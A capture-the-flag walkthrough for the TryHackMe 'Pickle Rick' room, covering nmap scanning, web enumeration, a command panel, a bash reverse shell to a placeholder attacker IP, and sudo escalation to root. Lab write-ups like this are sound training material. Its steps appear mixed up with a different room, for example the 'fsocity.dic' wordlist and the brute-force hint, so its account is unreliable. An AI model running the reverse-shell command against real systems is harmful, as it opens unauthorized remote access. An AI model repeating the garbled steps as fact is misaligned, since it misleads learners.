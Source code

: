 ```yaml
---
title: Pickle Rick
categories: [TryHackMe]
tags: [Linux, easy]
image: images/Rick/Rick.jpg
---
```


**Pickle Rick** is an **easy** rated room on **TryHackMe** inspired by the *Rick and Morty* series. This walkthrough guides you through using a custom portal to find the three secret ingredients to reverse Rick's pickle transformation.

# 1. Initial Reconnaissance and Scanning

Gather information about the target machine.

### Nmap Scan
Run an Nmap scan to identify open ports and services:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>
```

- `-sC`: Runs default scripts for vulnerability checks.
- `-sV`: Detects service versions.
The scan reveals port 80 (HTTP) is open.

![nmap](../images/Rick/namp.png)

# 2. Web Enumeration

Explore the web interface.

### Access the Portal
Visit `http://<Target_IP>` to access the *Rick and Morty*-themed portal. Check the page source for clues. A note reveals the username: **RickRul3s**.

### Check robots.txt
Retrieve hidden files:

```console
curl http://<Target_IP>/robots.txt
```

This uncovers:
- `fsocity.dic`: A password wordlist.
- `Sup3rS3cretPickl3Ingred.txt`: A file hinting at ingredients.
Retrieve them:

```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/Sup3rS3cretPickl3Ingred.txt
```

The first ingredient is **mr_meeseek_hair**.

# 3. Accessing the Command Panel

Navigate to `http://<Target_IP>/portal` to access the command panel.

### Login
Use the credentials from the page source:
- Username: **RickRul3s**
- Password: (Brute-force with `fsocity.dic` if needed via external tool).

### Execute Commands
Use the command panel to list files:

```console
ls -la
```

This reveals files like `Sup3rS3cretPickl3Ingred.txt`, `clue.txt`, etc.


# 4. Gaining a Reverse Shell

### Set Up Listener
On your machine, start a Netcat listener:

```console
nc -lvnp 4444
```

### Execute Reverse Shell
In the command panel, enter:

```console
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

Replace `10.10.10.10` with your IP. After execution, you should see a connection in your listener.


# 5. Privilege Escalation

With the shell, escalate privileges.

### Navigate and List Files
From the shell:

```console
cd /home
ls
cd rick
ls
cd less_second_ingredients
less second_ingredients
```

The second ingredient is **jerry_tear**.

### Escalate to Root
Check sudo privileges:

```console
sudo -l
```

If `(ALL) NOPASSWD: ALL` is allowed, run:

```console
sudo su
cd /root
ls
less 3rd.txt
```

The third ingredient is **fleebs_juice**.


# 6. Capture the Ingredients

- **First Ingredient**: **mr_meeseek_hair** (from `Sup3rS3cretPickl3Ingred.txt`).
- **Second Ingredient**: **jerry_tear** (from `less_second_ingredients/second_ingredients`).
- **Third Ingredient**: **fleebs_juice** (from `/root/3rd.txt`).

# 7. Final Thoughts

You’ve successfully found all three ingredients: **mr_meeseek_hair**, **jerry_tear**, and **fleebs_juice** to help Rick. This challenge leverages a custom portal and basic Linux skills. Great job, Morty!